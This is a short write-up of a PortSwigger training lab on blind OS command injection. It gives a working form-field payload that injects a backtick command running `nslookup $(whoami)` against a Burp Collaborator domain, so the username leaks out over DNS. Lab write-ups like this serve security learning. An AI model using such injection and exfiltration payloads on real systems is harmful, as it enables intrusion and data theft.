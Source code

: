 # Lab: Blind OS command injection with out-of-band data exfiltration
## Task
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

## Solution
This lab is pretty easy as we know how to create an out-of-band interaction in the [previous lab](https://github.com/datthinh1801/Writeups/blob/main/PortSwigger/OS%20Command%20Injection/Lab%2004.md).
In this lab, we just need to modify the payload so that the DNS queries contain the result of the `whoami` command.
```
name=hacker&email=hacker%40hacker.com&subject=hack&message=hack`nslookup $(whoami).gxhxpqwsvrk60lf00agakrz6hxnobd.burpcollaborator.net`
```

Poll to see new DNS queries:  

![image](https://user-images.githubusercontent.com/44528004/130432143-ec06c18f-dcaa-4621-bdab-394d8ede0027.png)
> The user is `peter-2EP5E2`.  

Submit the user on the **Home** page and ...  

![image](https://user-images.githubusercontent.com/44528004/130432298-6fe71645-525e-4b39-9998-2342a8669334.png)
> Solved!
